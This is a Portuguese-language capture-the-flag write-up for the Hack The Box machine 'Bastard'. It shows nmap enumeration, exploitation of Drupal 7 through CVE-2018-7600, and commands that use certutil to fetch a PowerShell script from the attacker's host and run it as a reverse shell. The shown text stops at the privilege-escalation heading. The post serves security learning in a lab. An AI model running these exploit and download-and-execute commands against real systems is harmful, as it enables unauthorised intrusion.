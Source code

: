 ```yaml
---
title:     "Hack The Box - Bastard"
tags: [windows,medium]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/1.jpg)

## Enumeration

Inicialmente, utilizamos o nmap para obter informacoes por exemplo: version, ports, status, vulns...

```
root@kali:~/HTB-Windows/bastard# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 21:06 EDT
Nmap scan report for 10.10.10.9
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 430.79 seconds
```

Um novo scan apenas com as portas encontradas e assim obter versionamento.

```
oot@kali:~/HTB-Windows/bastard# nmap -sV -p80,135 -oN nmap/version 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-23 23:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.19s latency).

PORT    STATE SERVICE VERSION
80/tcp  open  http    Microsoft IIS httpd 7.5
135/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.51 seconds
```

Navegando ate o servido HTTP na porta 80, indentificco um DRUPAL

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/2.jpg)

Huuuuuum... Veriricando o source do site eu vejo que trata-se de um **DRUPAL 7** e de acordo com minha experiencia existe exploits pra versao.

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/3.jpg)

## Find exploits

Uma busca rapida encontramos varias formas de explorar

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/4.jpg)


## Exploitation

Encontrei um exploit interessante e precisamos testar **CVE-2018-7600**

***reference*** https://github.com/pimps/CVE-2018-7600.git

Realmente eh vulneravel

`python drupa7-CVE-2018-7600.py -c whoami http://10.10.10.9/`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/5.jpg)

## Reverse Shell

Estou um tempinho tentando transferir arquivos para maquina e assim obter uma reverse shell

Acabei de fazer um teste e ver se o alvo se comunicava de volta comigo e sim, esta tudo ok.. preciso continuar tentando encontrar uma maneira de transferir arquivos..

AHhh, lembrando que eu ja dei uma verificada rapidas nos arquivos encontrados no diretorio do drupal.

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/6.jpg)

Consegui usando o certutil

`python drupa7-CVE-2018-7600.py -c "certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1" http://10.10.10.9/`

`certutil -urlcache -split -f http://10.10.14.36/shell.ps1 shell.ps1`

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/7.jpg)

Enfim pegamos nossa reverse shell

`python drupa7-CVE-2018-7600.py -c "powershell.exe -exec bypass .\shell.ps1" http://10.10.10.9/`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-bastard/8.jpg)

## Privilege Escalation

Vamos comecar a sessao de PE e assim ter acesso de user e system
